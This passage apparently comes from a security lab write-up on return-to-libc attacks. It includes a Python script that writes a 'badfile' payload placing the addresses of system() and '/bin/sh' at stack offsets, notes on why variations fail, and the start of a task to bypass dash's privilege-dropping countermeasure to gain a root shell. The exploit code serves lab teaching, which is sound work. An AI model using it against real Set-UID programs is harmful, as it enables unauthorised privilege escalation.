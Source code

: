 ```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
sh_addr = 0xf7f52a0b       # The address of "/bin/sh"
system_addr = 0xf7e12420   # The address of system()

# Offsets
X = 112
Y = 108

# Construct the payload
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

Run the attack again and observe the behavior. The program may crash after executing `system()` because there is no valid return address.

---

###### Variation 2: Change the File Name
If you change the file name of the vulnerable program (e.g., from `retlib` to `newretlib`), the attack may fail. This is because the memory layout of the program (including the stack and libc addresses) may change due to differences in the length of the file name. To fix this, you would need to recalculate the addresses and offsets.

---

##### Explanation of Observations
1. **Without `exit()`**: The attack may still succeed in executing `system("/bin/sh")`, but the program will likely crash afterward because there is no valid return address.
2. **File Name Change**: The attack may fail because the memory layout changes, causing the addresses and offsets to become invalid. This demonstrates the importance of precise memory layout knowledge in return-to-libc attacks.


#### 3.4 Task 4: Defeat Shell’s Countermeasure

The goal of this task is to launch the return-to-libc attack after enabling the shell’s countermeasure. Before completing Tasks 1 to 3, we relinked `/bin/sh` to `/bin/zsh` instead of `/bin/dash` (the original setting). This is because some shell programs, such as `dash` and `bash`, have a countermeasure that automatically drops privileges when executed in a Set-UID process. In this task, we aim to bypass this countermeasure and obtain a root shell, even when `/bin/sh` points to `/bin/dash`.

First, change the symbolic link back to `/bin/dash`:
```bash
$ sudo ln -sf /bin/dash /bin/sh
```
